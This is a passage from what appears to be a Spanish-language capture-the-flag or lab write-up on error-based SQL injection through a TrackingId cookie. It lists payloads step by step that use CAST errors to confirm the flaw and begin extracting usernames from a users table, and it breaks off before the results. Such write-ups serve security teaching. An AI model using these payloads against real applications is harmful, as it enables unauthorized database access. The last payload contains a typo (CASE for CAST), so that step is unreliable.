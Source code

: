 ```Ejemplo : CAST((SELECT exemple_column FROM example_table) AS int)```
```bash
TrackingId=Wn5WKnuRUukahftF
```

* **Resultado esperado:** La aplicación responde normalmente, sin error visible.
* **Propósito:** Confirmar que el parámetro es funcional.

---

## 2️⃣ Comprobar si los errores se pueden suprimir con comentario

```bash
TrackingId=Wn5WKnuRUukahftF'--
```

* **Resultado esperado:** No debería devolver error.
* **Interpretación:** Si el error desaparece, el parámetro es vulnerable a inyección SQL basada en comillas.

---

## 3️⃣ Probar con una expresión `AND`

```bash
TrackingId=Wn5WKnuRUukahftF' AND CAST((SELECT 1) AS int)--
```

* **Resultado:**
  `ERROR: argument of AND must be type boolean, not type integer`
* **Interpretación:** El servidor está revelando detalles del motor SQL → **confirmación de vulnerabilidad**.

---

## 4️⃣ Ajustar expresión a tipo booleano

```bash
TrackingId=Wn5WKnuRUukahftF' AND 1=CAST((SELECT 1) AS int)--
```

* **Resultado esperado:** Sin error.
* **Conclusión:** La expresión se evalúa correctamente → el payload se ejecuta dentro de la consulta SQL.

---

## 5️⃣ Intentar extraer nombres de usuario (prueba inicial)

```bash
TrackingId=' AND 1=CASE((SELECT username FROM users) AS int)--
```

* **Posibles resultados:**
